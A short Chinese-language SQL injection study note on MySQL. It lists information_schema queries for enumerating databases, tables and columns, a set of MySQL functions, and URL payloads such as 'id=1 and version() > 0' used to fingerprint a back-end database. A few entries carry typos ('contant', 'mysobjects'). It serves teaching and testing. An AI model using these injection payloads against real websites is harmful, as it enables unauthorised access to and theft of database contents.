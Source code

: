 # sql注入

## Mysql小知识

1. 一个数据库 `information_schema`
2. 一个表 `columns`
3. 三个字段 `table_schema` , `table_name` , `column_name`

## 基本查询

1. 所有数据库 `select group_concat(distinct table_schema) from information_schema.columns;` table_schema
2. 当前数据库 `select database();`
3. 数据库中的表 `select group_concat(distinct table_name) from information_schema.columns where table_schema='xxx';` table_name , table_schema
4. 表中的字段 `select group_concat(column_name) from information_schema.columns where table_name='xxx';` column_name

## 基本流程

1. 数据库 `select group_concat(distinct table_schema) from information_schema.columns;`
2. 表 `select group_concat(distinct table_name) from information_schema.columns where table_schema='xxx';`
3. 字段 `select group_concat(column_name) from information_schema.columns where table_name='xxx';`

## 常用函数

1. 数据库路径 `@@datadir`
2. 数据库版本 `@@version`
3. 当前用户/所有用户 `current_user(),user()`
4. 服务器主机名 `@@hostname`
5. 操作系统版本 `@@global.version_compile_o s`
6. `mid()`用于得到字符串的一部分 `mid('superman',5,1)` 将第一个参数，从其第五位开始，取一位字符
7. `ord()`返回字符串的ascii值
8. `concat()`用于连接一个或多个字符串 `contant('22','aa','33');` 输出的结果为：`22aa33`
9. `concat_ws()`用于连接一个或多个字符串，第一个为分隔符 `concat_ws('aa','11','22','33');` 输出结果为：`11aa22aa33`

## 确认数据库类型mysql

1. `http://url/index.php?id=1 and user > 0`  
2. `http://url/index.php?id=1 and version() > 0`  
3. `http://url/index.php?id=1 and (select count(*) from sysobjects) > 0`  
4. `http://url/index.php?id=1 and (select count(*) from mysobjects) > 0`